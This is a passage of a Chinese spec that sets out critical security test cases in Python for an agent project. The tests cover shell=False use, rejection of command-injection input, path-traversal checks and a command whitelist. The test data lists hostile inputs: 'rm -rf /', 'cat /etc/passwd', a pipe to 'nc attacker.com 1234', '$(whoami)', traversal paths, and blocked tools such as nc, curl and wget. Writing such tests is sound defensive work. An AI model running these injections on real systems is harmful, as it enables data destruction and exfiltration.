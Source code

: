 ## 测试用例要求

### Critical 级别测试用例（必须实现）

```python
# test_security_critical.py
import pytest
import subprocess
from unittest.mock import patch, MagicMock

class TestCommandInjectionPrevention:
    """测试命令注入防护"""

    def test_subprocess_with_shell_false(self):
        """确保 subprocess 调用禁用 shell"""
        with patch('subprocess.run') as mock_run:
            # 测试代码调用
            from pm.agents.gtd_agent import GTDAgent
            agent = GTDAgent()
            agent.detect_current_context()

            # 验证 shell=False 或未设置 shell
            for call in mock_run.call_args_list:
                kwargs = call.kwargs
                assert kwargs.get('shell', False) == False

    def test_ping_command_validation(self):
        """测试 ping 命令参数验证"""
        dangerous_inputs = [
            "8.8.8.8; rm -rf /",
            "8.8.8.8 && cat /etc/passwd",
            "8.8.8.8 | nc attacker.com 1234",
            "$(whoami)",
            "`id`",
        ]

        for dangerous_input in dangerous_inputs:
            with pytest.raises((ValueError, subprocess.CalledProcessError)):
                # 应该拒绝执行危险输入
                safe_ping(dangerous_input)

    def test_path_traversal_prevention(self):
        """测试路径遍历防护"""
        dangerous_paths = [
            "../../../etc/passwd",
            "/etc/passwd",
            "~/../../../etc/passwd",
            "${HOME}/../../../etc/passwd",
        ]

        for path in dangerous_paths:
            # 应该拒绝访问系统文件
            assert not is_safe_path(path)

    def test_exec_command_whitelist(self):
        """测试命令白名单机制"""
        allowed = ['pm', 'python3', 'poetry']
        blocked = ['rm', 'cat', 'nc', 'curl', 'wget']

        for cmd in allowed:
            assert is_command_allowed(cmd)

        for cmd in blocked:
```
